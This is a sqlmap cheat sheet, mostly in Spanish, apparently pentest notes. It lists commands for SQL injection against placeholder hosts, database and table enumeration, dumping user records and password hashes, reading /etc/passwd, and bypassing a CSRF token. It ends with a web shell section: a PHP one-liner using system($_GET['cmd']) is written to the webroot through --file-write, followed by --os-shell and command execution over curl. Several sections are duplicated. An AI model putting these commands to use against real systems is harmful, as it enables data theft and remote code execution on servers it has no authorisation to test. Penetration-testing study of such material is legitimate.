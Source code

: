 # SQLmap

```c
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
```

```c
sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'
```

## GET/POST Requests

```c
sqlmap 'http://www.example.com/' --data 'uid=1&name=test'
```

```c
 sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'
```

## Full HTTP Requests

```c
GET /?id=1 HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1
If-Modified-Since: Thu, 17 Oct 2019 07:18:26 GMT
If-None-Match: "3147526947"
Cache-Control: max-age=0
```

```c
sqlmap -r req.txt
```

## Ver el menú de ayuda básica

```c
sqlmap -h
```

## Ver el menú de ayuda avanzada

`sqlmap -hh`

## Ejecutar SQLMap sin pedir entrada al usuario


```c
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
```

## Usar SQLMap con una solicitud POST

```c
sqlmap 'http://www.example.com/' --data 'uid=1&name=test'
```

## Solicitud POST especificando un punto de inyección con un asterisco

```c
sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'
```

## Pasar un archivo de solicitud HTTP a SQLMap


```c
sqlmap -r req.txt
```

## Especificar una cookie en el encabezado


```c
sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```

## Especificar una solicitud PUT


```c
sqlmap -u www.target.com --data='id=1' --method PUT
```

## Guardar el tráfico en un archivo de salida

```c
sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt
```


## Especificar el nivel de verbosidad



```c
sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch
```
## Especificar un prefijo o sufijo

```c
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

```c
SELECT id,name,surname FROM users WHERE id LIKE (('test%')) UNION ALL SELECT 1,2,VERSION()-- -')) LIMIT 0,1
```

## Especificar el nivel y el riesgo


```c
sqlmap -u www.example.com/?id=1 -v 3 --level=5
```

## Enumeración básica de la base de datos


```c
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```

## Enumeración de tablas

```c
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```


## Enumeración de tabla/fila

```c
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname
```


## Enumeración condicional

```c
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"
```

## Enumeración del esquema de la base de datos

```c
sqlmap -u "http://www.example.com/?id=1" --schema
```


## Búsqueda de datos

```c
sqlmap -u "http://www.example.com/?id=1" --search -T user
```


## Enumeración y descifrado de contraseñas

```c
sqlmap -u "http://www.example.com/?id=1" --passwords --batch
```

## Omitir el token CSRF

```c
sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```
## Listar todos los scripts de manipulación


```c
sqlmap --list-tampers
```

## Verificar privilegios de DBA

```c
sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba
```


## Leer un archivo local


```c
sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"
```

## Escribir un archivo

```c
sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```


## Iniciar una shell de sistema operativo


```c
sqlmap -u "http://www.example.com/?id=1" --os-shell
```

```c
 sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E
```

## Os Explotation

```c
sqlmap -u "http://www.example.com/?id=1" --is-dba
```

```c
sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"
```

### Web Shell

```c
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

```c
$ sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```

```c
curl http://www.example.com/shell.php?cmd=ls+-la
```